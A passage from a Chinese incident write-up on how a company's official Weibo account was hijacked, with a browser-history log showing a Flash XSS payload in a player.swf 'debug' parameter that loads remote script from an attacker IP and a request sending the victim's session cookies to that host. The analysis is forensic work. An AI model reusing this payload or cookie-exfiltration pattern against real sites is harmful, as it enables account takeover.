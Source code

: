 0x04 案例之官微帐号被盗
=====

这是第一个案例，是官方微博帐号被盗的案例。首先看下面两张图片：

![enter image description here](http://drops.javaweb.org/uploads/images/f6f47890022c4cc3b626462ecc18e031c76ee675.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/0d425cb2d0aa394bbfd360317cb18331e494ebab.jpg)

某天我们的一个官方帐号突发连续发两条不正常的微博内容，看到第一条的时候还以为是工作人员小手一抖，test 到手，以为是工作人员的误操作，但是看到第二条微博的时候就已经能够判断帐号出了问题，具体是什么问题只能通过后面的分析才知道。

但是肯定的是这不是工作人员进行的操作，一方面在这种重要帐号的操作上有一些制度，其次是发布的内容也比较明显，根据发布的时间通过后台系统分析，该帐号有通过 cookie 在非公司 IP 进行过登录，但是我们的 cookie 是通过 httponly 进行保护的，how？

接下来锁定那个时间段操作过官方微博帐号同事的工作电脑，在其使用的火狐浏览器中发现有下面连续的几条访问记录：

```
==================================================
URL               : http://t.cn/zW*bUQ
Last Visit Date   : 2012-7-16 19:22:27
==================================================

==================================================
URL               : http://50.116.13.242/index.php
Last Visit Date   : 2012-7-16 19:22:28
Referrer          : http://t.cn/zW*bUQ
==================================================

==================================================
URL               : http://**.***.com/_common/jwplayer/player.swf?debug=(function(){location.href=%27javascript:%22%3Cscript/src=http://50.*.*.242/e.js%3E%3C/script%3E%22%27})
Last Visit Date   : 2012-7-16 19:22:28
Referrer          : http://50.116.13.242/index.php
Title             : player.swf (application/x-shockwave-flash 对象)
==================================================

==================================================
URL               : http://50.116.13.242/e.php?opener=0&cookie=ULV%3D1342421444188%3A342%3A12%3A1%3A306588567000.3021.1342421444076%3A1342141514702%3B%20__utma%3D182865017.844076418.1336462885.1341536058.1341543017.15%3B%20__utmz%3D182865017.1341473198.13.8.utmcsr%3Dweibo.com%7Cutmccn%3D%28referral%29%7Cutmcmd%3Dreferral%7Cutmcct%3D/breakingnews%3B%20vjuids%3Ddae3c1e13.1369ca9b037.0.1a9eb5f46e6ac8%3B%20vjlast%3D1334068228.1341096989.11%3B%20UOR%3D%2C%2C%3B%20un%3D*@sina.com%3B%20wvr%3D3.6%3B%20_s_tentry%3Dnews.sina.com.cn%3B%20Apache%3D306588567000.3021.1342421444076%3B%20SINAGLOBAL%3D306588567000.3021.1342421444076%3B%20SUS%3DSID-1618051664-1342421545-XD-z8hcn-efefbc9f4464bf215caf1d6b0da488bf%3B%20SUE%3Des%253D5937b4f4509871fc45195767ea7abe37%2526ev%253Dv1%2526es2%253Da42f0190f7b1f5137f761f625bbe0e81%2526rs0%253DpnLlydVz7IsdBcHbRCS8Tdb1KmHl7c%25252F758lHMKQRftFZBm9EDKoFVF7jexRKPF8CpY3rjGOora0pZ%25252FyDJSaDWJxRQn020MpsJxXhf5NdP2h3jfo2V%25252FoQgA0olYEWGJNQIDFZDfkndhSSXCp%25252BldHRW%25252BkEMwhvhY4p3xR0Ki5ja94%25253D%2
Last Visit Date   : 2012-7-16 19:22:31
Referrer          : http://**.***.com/_common/jwplayer/player.swf?debug=(function(){location.href=%27javascript:%22%3Cscript/src=http://50.*.*.242/e.js%3E%3C/script%3E%22%27})
==================================================

```
